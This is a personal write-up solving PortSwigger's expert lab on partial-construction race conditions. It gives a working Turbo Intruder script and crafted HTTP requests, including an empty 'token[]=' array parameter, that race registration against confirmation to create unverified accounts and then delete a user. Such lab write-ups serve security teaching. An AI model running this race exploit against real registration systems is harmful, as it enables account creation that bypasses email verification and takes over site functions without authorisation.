








# Portswigger Lab: Race Conditions Partial Construction - My Solution

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the presence of a phpsessionid cookie.

Both the research paper and the academy article mention that the
standard PHP session library forces sequential requests within a given
session, masking race condition vulnerabilities. So I decided that my first
step would be to create a number of valid sessions, and gather the *phpsessionid* and
corresponding anti-csrf tokens.

My first attempt to generate sessions was with Burp macros, but after a few
hours of little or no progress I decided that I'd learn about macros later,
and would resort to pre-creating sessions in the Intruder. My reasoning is
that these sessions would be valid for some time, possibly for the lifetime
of the lab instance. 

I did worry a bit that a registration event might become tied to a given
session, but thankfully that turned out not to be the case.

Here's the request I used in Intruder:

```
GET /register HTTP/2
Host: <host>.web-security-academy.net
X-Count: §xxx§

```



I decided to use sniper mode, with a dummy payload placed in a user-defined
header. In this case `X-Count`. 100 requests turned out to be overkill, but
I'll address that later.



All that's left is to set up the extraction of server-provided data, the
phpsessionid and its associated anti-CSRF token, which are easily done in
the extraction tool in the Intruder settings section.






The attack runs smoothly, and produces a results table which can be copied
and pasted into a file. Again these sessions seem to last for the lifetime
of the lab container instance.



Here's an example of the Intruder attack output as text. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Once I had sessions I moved on constructing the actual turbo intruder
attack, and for an hour or so I got it completely wrong. I started with a
strategy of attacking the password, using a login request, reasoning that
there might be a short window in which the account is available and
unlocked. 

That didn't work, of course, but it did lead to a key observation. All POST
endpoints in the lab accept *extra* POST parameters without complaint. This
means that it's possible to use a single request for all endpoints, with
the path as a parameter.

Let's compare a valid registration request:
```
POST /register HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

With a valid login request:
```
POST /login HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

The login endpoint simply ignores the extra *email* parameter, which means
that the path can be parametized in Turbo-Intruder:

```
POST /%s HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=%s
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=%s&username=%s&email=%s%40ginandjuice.shop&password=peter
```

Later when I got frustrated that this wasn't working I went back and found
the oddly named /resources/static/users.js, and pretty quickly constructed
a GET request to /confirm. From there all that was left was to validate
that the /confirm POST endpoint would accept extra params. It does:

```
POST /confirm?token=foo HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

That means that just as with the failed attempt on the /login endpoint it's
possible to bounce back and forth between registration and confirmation.

So that's exactly what my Turbo-Intruder settings script does. For each
registration it also queues a confirmation POST in the hope that one or
more of them hit the tiny window during which confirmation can be done
a null token. The server of course processes the requests in whatever order
it chooses. So it's all luck from here:

Turbo-Intruder configuration (also available as ./partial_construction_race_condition.py).

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

However it turns out that 100 registrations are complete overkill.
Statistically it looks like just under one quarter of the confirmation
requests hit the window, producing about two dozen valid accounts:






All that's left is to log in with one of them and delete *Carlos*:




## Lessons learned

I really should have noticed users.js earlier. Having done so would have
saved me at least an hour. I can generalize this into a lesson to invest
more time into the reconaissance phase of an attack.

## Further ideas

Given the importance of operational security it could be useful to optimise
this attack to create fewer dummy accounts, and thus less noise. So the
next step is to find the smallest number of sessions from sessions.txt
which result in at least one valid account being created.


